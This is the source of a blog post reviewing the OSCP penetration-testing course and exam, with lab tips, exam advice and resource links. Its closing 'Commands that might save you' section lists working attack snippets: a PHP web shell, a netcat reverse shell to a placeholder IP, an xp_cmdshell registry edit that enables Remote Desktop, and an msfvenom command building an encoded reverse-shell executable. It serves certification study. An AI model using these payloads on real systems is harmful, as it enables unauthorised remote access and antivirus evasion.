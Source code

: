 ```yaml
---
layout:     post
title:      "OSCP & PWK Review"
#subtitle:   "Pentesting"
date:       2017-06-07
author:     "Tech"
header-img: "img/post-OSCP.jpg"
tags:
    - Pentesting
    - Exploit Development
    - Shellcoding
---
```



![](/img/in-post/post-js-version/oscp.png)

This course exceeded my expectations.

This we'll be a very quick review for those looking to expand into pen-testing while going for the bad-ass of certifications.

I am now studying for my SLAE, and starting the OSCE right after. Look out for those post within a few months! Continuing back on the OSCP!

# The Lab:

You have 50+ machines to play around with at your disposal! Each machine has a unique trait about them and you should try to get as much needed. There are a few networks in which you can pivot around and have fun. I have comproise all the more notable machines in the labs: gh0st, pain, humble, sufferance, edb, ect. The list goes on, but here are a few tips for you regarding the labs:

 * For pivoting, using proxychains can be...time consuming to say the least. It gets very intersting when you are all setup and another student has reverted one of the boxs you were pivoting on. SSHUTTLE has saved me plenty of time and easy to get into, the kali lab vm now comes with it pre-installed.
 * Try not to use the forums. Even though the admins are quick to delete post with hints, some can get past them. Your objective is to learn as much as you can. Try and find your own methodology before looking for hints.
 * Use Metasploit if you absolutely need to. What I mean, is most of the ruby metasploit scripts can be converted to python if you simply just read it. If you work with this mind-set you'll do good for the rest of the course and exam.

# Exam:

Leading up to the exam day will have you double thinking if your ready or not, questions like:

 * Is my enumeration scripts ready?
 * Should I keep privilege escalation testing?
    *  The answer is yes, yes you should.
 * What happens if one of the machines is like gh0st?
    * Don't want to spoil this answer, but if you have compromised gh0st in the labs.. you'll know what I mean.

For those who don't know, the OSCP is an arduous 24 hour practical exam followed by 24 hours to submit the report. In the exam you’ll be given a small number of machine to exploit, and you’ll require 70⁄100 points to pass. Use of certain tools (e.g. metasploit) is restricted, so make sure you’ve got a solid methodology and aren’t dependent on these!

My exam started at 12:00PM, and rightfully so I received my email seconds into it. Once you get the VPN situated and have your 5 machines with their IP and point value, it's time to decide what to do first. I got system on the buffer overflow machine within 45 minutes, the second machine fell in 20 minutes after that. Within 3 hours of starting, I already have enough points to past if my lab/exercise documentation were good (they were!). 5 Hours in and I got my 4th machine, this puts me around 90⁄100 points. I started typing up my report and once I finished that, I looked over the last machine and got that one shortly after. All in all, ~8 hours total, and the whole network compromised and pentest report finished. It was a glorious day.

#### Here are some TIPs:

 * Have a good sleep the night before, really.
 * Attack the higher point value machines first, if you can known down and secure yourself a pass within a few hours, everything else will crumble with *confidence*.
 * I personally didn't end up using any of the scripts I made, don't get hanged up on them.
 * Document as you go, the boring side of pentesting is the documentation. Do it as you go and it wouldn't hinder you after.
 * Remember the word "Methodology" and understand it. This is the one what people fail to do. This exam is to test and see how quickly you can adapt to a situation to figure out what to do. You need to walk into this exam thinking differently, if you see something that seems to easy, most likely it's just a rabbit hole.
 * There’s a mountain of resources out there that are worth their weight in gold. Those I kept coming back to include:
     * [Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
     * [Windows Privilege Escalation](http://www.fuzzysecurity.com/tutorials/16.html)
     * [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
     * [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
     * [LinuxPrivChecker](www.securitysift.com/download/linuxprivchecker.py)


#### Commands that might save you:

```python
<?php  
$output=shell_exec("ls -lah /usr/bin");echo "<pre>$output<//pre>";
//be sure to remove the second slash.
?>
```

```python
<?php  
$output=shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx 4444 >/tmp/f");echo "<pre>$output<//pre>";
//be sure to remove the second slash.
?>
```

```python
payload = """python -c ‘import pty; pty.spawn("/bin/sh")’""" # to exploit only on root
```

```python
xp_cmdshell '﻿C:\WINNT\system32\regedt32.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'  
```

```python
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell  
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)  
```

```python
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe > shell.exe  
```

![](/img/in-post/post-js-version/oscp1.png)
